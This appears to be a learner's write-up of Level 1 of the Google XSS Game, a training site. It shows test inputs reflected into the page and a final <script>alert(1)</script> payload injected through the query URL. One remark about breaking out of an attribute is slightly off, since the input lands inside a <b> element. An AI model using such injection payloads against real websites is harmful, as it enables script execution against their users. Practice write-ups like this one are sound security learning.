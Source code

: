 # Google XSS Game – Level 1: Reflected XSS

---

## 🎯 Mission Description  
This level demonstrates a common cause of cross-site scripting, where user input is directly included in the page without proper escaping.  
You're allowed to interact with the vulnerable frame or modify the URL directly to execute JavaScript.

---

## 🎯 Mission Objective  
Inject a script that pops up `alert(1)` in the frame below.  
Once the alert appears, the level is considered solved.

---

## 🧪 Steps (My Try)

### ✅ Tried:  
`x`  
→ URL:  
```
https://xss-game.appspot.com/level1/frame?query=x
```  
→ Reflected as:  
```html
<b>x</b>
```

---

### ✅ Tried:  
`X">x`  
→ URL:  
```
https://xss-game.appspot.com/level1/frame?query=X">x
```  
→ Reflected as:  
```html
<b>X">x</b>
```  
🔸 This shows we can break out of the attribute or tag.

---

### ✅ Final Payload:  
```html
<script>alert(1)</script>
```

→ URL:  
```
https://xss-game.appspot.com/level1/frame?query=<script>alert(1)</script>
```  
🎉 Alert triggered — mission accomplished.

---

## 🧠 Notes  
- Input is reflected inside a `<b>` tag using `innerHTML`
- No escaping or filtering at all
- Classic Reflected XSS vulnerability
- Direct injection with `<script>` tag works

---

## ✅ Status: Solved 🎉
